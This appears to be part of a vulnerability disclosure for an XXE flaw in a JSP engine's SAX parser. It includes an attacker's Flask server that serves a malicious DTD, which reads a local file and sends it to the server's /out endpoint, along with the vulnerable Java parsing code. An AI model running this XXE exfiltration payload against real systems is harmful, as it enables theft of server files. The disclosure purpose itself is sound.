 *Attacker's Python application*
```python
from flask import Flask, request 

app = Flask(__name__) 
me = 'http://127.0.0.1:5000' 

@app.route('/payload', methods=['GET']) 
def payload(): 
    payload = f''' 
<!ENTITY % file SYSTEM "file:///tmp/poc.txt"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM '{me}/out?data=%file;'>"> 
%eval; 
%exfiltrate; 
''' 
    return payload, 200 

@app.route('/out', methods=['GET']) 
def exfiltrate(): 
    data = request.args.get('data') 
    print("#"*50) 
    print(data, flush=True) 
    print("#"*50) 
    return "Data received", 200 

if __name__ == '__main__': 
    app.run(debug=True)
```

*jspengine\compiler\ParserXJspSax.java*:
```java
public void parse() throws JasperException { 
        String str; 
        try { 
            XMLReader xMLReader = SAXParserFactory.newInstance().newSAXParser().getXMLReader(); 
            DefaultHandler parserXJspSaxHandler = new ParserXJspSaxHandler(this.filePath, this.jspHandler); 
            xMLReader.setContentHandler(parserXJspSaxHandler); 
            xMLReader.setEntityResolver(parserXJspSaxHandler); 
            xMLReader.setDTDHandler(parserXJspSaxHandler); 
            xMLReader.setErrorHandler(parserXJspSaxHandler); 
            for (int i = 0; i < lexicalHandlerPropNames.length && !setSaxProperty(xMLReader, parserXJspSaxHandler, lexicalHandlerPropNames[i]); i++) { 
            } 
            try { 
                xMLReader.setFeature("http://xml.org/sax/features/validation", false); 
                xMLReader.setFeature("http://xml.org/sax/features/namespaces", false); 
                xMLReader.setFeature("http://xml.org/sax/features/namespace-prefixes", true); 
                xMLReader.parse(this.is); 
            } catch (SAXNotRecognizedException e) { 
                throw new JasperException(Constants.getString("jsp.parser.sax.featurenotrecognized", new Object[]{e.getMessage()})); 
            } catch (SAXNotSupportedException e2) { 
                throw new JasperException(Constants.getString("jsp.parser.sax.featurenotsupported", new Object[]{e2.getMessage()})); 
            } 
        } catch (IOException e3) { 
            [.. SNIPPED ..] 
        } 
    }
```
